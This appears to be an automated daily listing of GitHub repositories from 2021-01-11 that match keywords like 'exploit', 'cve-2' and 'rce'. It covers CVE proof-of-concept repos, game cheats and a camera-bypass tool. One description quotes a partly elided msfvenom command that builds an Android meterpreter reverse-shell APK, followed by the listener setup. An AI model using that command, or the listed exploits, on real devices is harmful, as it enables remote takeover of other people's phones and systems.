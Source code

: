 
# Summary for results/2021/01/11
    
19 records found after deduplication

| full_name | description | html_url | matched_list | matched_count | pushed_at | size | stargazers_count | language | forks_count |
|-----------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------|----------------------------------|-----------------|---------------------------|--------|--------------------|------------|---------------|
| HKUST-KnowComp/SRFET | Exploiting Semantic Relations for Fine-grained Entity Typing | https://github.com/HKUST-KnowComp/SRFET | ['exploit'] | 1 | 2021-01-11 15:07:37+00:00 | 43334 | 0 | Python | 1 |
| Al1ex/CVE-2020-36184 | CVE-2020-36184 && Jackson-databind RCE | https://github.com/Al1ex/CVE-2020-36184 | ['cve-2', 'rce'] | 2 | 2021-01-11 06:22:44+00:00 | 243 | 15 | nan | 3 |
| CoochieSlayer6372/SimpleSpyFixed | a fixed version of this dudes shitty ass remote spy designed to work for sentinel, protosmasher & some free exploits | https://github.com/CoochieSlayer6372/SimpleSpyFixed | ['exploit'] | 1 | 2021-01-11 21:38:37+00:00 | 50 | 0 | Lua | 0 |
| AnasTaoutaou/CVE-2019-5420 | None | https://github.com/AnasTaoutaou/CVE-2019-5420 | ['cve-2'] | 1 | 2021-01-11 19:24:31+00:00 | 1 | 0 | Python | 0 |
| AspxctDev/PlagueRobloxExploit- | None | https://github.com/AspxctDev/PlagueRobloxExploit- | ['exploit'] | 1 | 2021-01-11 17:30:58+00:00 | 0 | 0 | | 0 |
| averagetimsweeneyfan/Fortnite-Shoot-Through-Walls-Exploit | Shoot bullets through walls all weapons | https://github.com/averagetimsweeneyfan/Fortnite-Shoot-Through-Walls-Exploit | ['exploit'] | 1 | 2021-01-11 15:01:29+00:00 | 1 | 0 | C++ | 2 |
| nyc-tophile/- | اختراق جميع هواتف اندرويد داخل الشبكة بستخدام #كالي لينوكس امر انشاء بايلود. msfvenom -p android/meterpreter/reverse_tcp lhost=192.......... lport=4444 -o /home/kali/Desktop/app.apk =====================================اوامر فتح الجلسة. use multi/handler | https://github.com/nyc-tophile/- | ['exploit'] | 1 | 2021-01-11 12:52:20+00:00 | 0 | 0 | | 0 |
| mafiaguy/exploitdevelopment | None | https://github.com/mafiaguy/exploitdevelopment | ['exploit'] | 1 | 2021-01-11 07:19:31+00:00 | 1 | 0 | C | 0 |
| Al1ex/CVE-2020-36188 | CVE-2020-36188 &&Jackson-databind RCE | https://github.com/Al1ex/CVE-2020-36188 | ['cve-2', 'rce'] | 2 | 2021-01-11 06:29:59+00:00 | 218 | 7 | nan | 2 |
| IAMSPYS/Ro-Diac-Sploit | nan | https://github.com/IAMSPYS/Ro-Diac-Sploit | ['sploit'] | 1 | 2021-01-11 07:03:44+00:00 | 9002 | 0 | Lua | 0 |
| MisakaMikato/cve-2017-7921-golang | Hikvision IP camera access bypass exploit, developed by golang. | https://github.com/MisakaMikato/cve-2017-7921-golang | ['cve-2', 'exploit'] | 2 | 2021-01-11 05:52:22+00:00 | 39 | 4 | Go | 0 |
| purgedemo/CVE-2018-6574_2 | None | https://github.com/purgedemo/CVE-2018-6574_2 | ['cve-2'] | 1 | 2021-01-11 02:25:36+00:00 | 7 | 0 | Go | 0 |
| purgedemo/CVE-2018-6574 | None | https://github.com/purgedemo/CVE-2018-6574 | ['cve-2'] | 1 | 2021-01-11 02:11:44+00:00 | 5 | 0 | Go | 0 |
| redskal/byte-array-creator | Generate C# exploit skeletons from your shellcode .BIN files. | https://github.com/redskal/byte-array-creator | ['exploit', 'shellcode'] | 2 | 2021-01-11 01:30:17+00:00 | 1 | 0 | C# | 0 |
| hoanx4/CVE-2020-17519 | CVE-2020-17519 | https://github.com/hoanx4/CVE-2020-17519 | ['cve-2'] | 1 | 2021-01-11 04:37:43+00:00 | 11 | 0 | Ruby | 0 |
| 1283625/hack-exploit | prank your friends with this simple exploit :D | https://github.com/1283625/hack-exploit | ['exploit'] | 1 | 2021-01-11 08:46:14+00:00 | 12 | 0 | Python | 0 |
| yrxsecurity/basic_rce | Remote Code Execution | https://github.com/yrxsecurity/basic_rce | ['rce', 'remote code execution'] | 2 | 2021-01-11 04:37:31+00:00 | 18 | 1 | nan | 0 |
| aleksejspopovs/cve-2020-16012 | PoC for CVE-2020-16012, a timing side channel in drawImage in Firefox & Chrome | https://github.com/aleksejspopovs/cve-2020-16012 | ['cve poc', 'cve-2'] | 2 | 2021-01-11 17:57:36+00:00 | 38 | 9 | HTML | 0 |
| zer0exp/exploits | None | https://github.com/zer0exp/exploits | ['exploit'] | 1 | 2021-01-11 22:23:17+00:00 | 4 | 0 | | 0 |
